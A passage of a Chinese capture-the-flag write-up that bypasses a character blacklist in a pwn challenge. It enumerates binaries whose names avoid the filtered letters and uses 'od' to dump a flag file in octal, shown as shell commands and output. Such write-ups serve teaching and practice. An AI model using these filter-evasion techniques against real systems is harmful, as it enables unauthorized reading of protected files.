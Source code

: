 ```
       ||strstr(cmd, "`")
       ||strstr(cmd, "-")
       ||strstr(cmd, "<")
       ||strstr(cmd, ">")
       ||strstr(cmd, ".")){'''
import re
print("|".join(re.findall("\"(.*?)\"",a))) 
```

剔除无用符号然后查看环境变量，利用grep搜索可使用的命令：

```
ctf@9bfc4ddb5e89:~$ ls /usr/bin/ /bin/ | grep -v -E "n|e|p|b|u|s|h|i|f|l|a|g"
dd
kmod
mt
mv
rm

2to3
2to3-2.7
2to3-3.4
[
comm
od
tr
tty
w
wc
x86_64
xxd
ctf@9bfc4ddb5e89:~$ 
```

发现od和x86_64可用：

od 命令可以得到flag文件对应的八进制

```
ctf@9bfc4ddb5e89:~$ ./test
Welcome to Pwn-Game by TaQini.
Your ID:
uid=1000(ctf) gid=1000(ctf) egid=1001(ctf_pwn) groups=1000(ctf)
$ od *
0000000 066146 063541 031173 062465 033541 061543 026471 063144
0000020 034060 032055 032071 026465 034470 062063 062455 063142
0000040 034146 030464 062544 032144 076461 077412 046105 001106
0000060 000401 000000 000000 000000 000000 001000 037000 000400
0000100 000000 000000 040006 000000 000000 040000 000000 000000
0000120 000000 014000 000033 000000 000000 000000 000000 040000 
```

转成字符串：
